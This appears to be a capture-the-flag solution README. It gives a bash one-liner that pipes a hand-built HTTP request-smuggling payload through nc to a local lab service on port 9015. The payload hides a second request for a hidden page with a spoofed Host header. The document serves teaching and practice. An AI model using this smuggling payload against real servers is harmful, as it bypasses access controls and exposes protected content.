 
<p align="center">
<img width="600" src="../static/solution.png">
</p>

The baseline for solving this challenge is already present in `check.sh`. 

Exploit it by running the following script in your bash:

  ```bash
  printf 'GET /a HTTP/1.1\r\n'\
  'Host: localhost\r\n'\
  'Content-Length: 56\r\n'\
  '\r\n'\
  'GET /_hidden/index.html HTTP/1.1\r\n'\
  'Host: notlocalhost\r\n'\
  '\r\n'\
  |nc 127.0.0.1 9015
  ```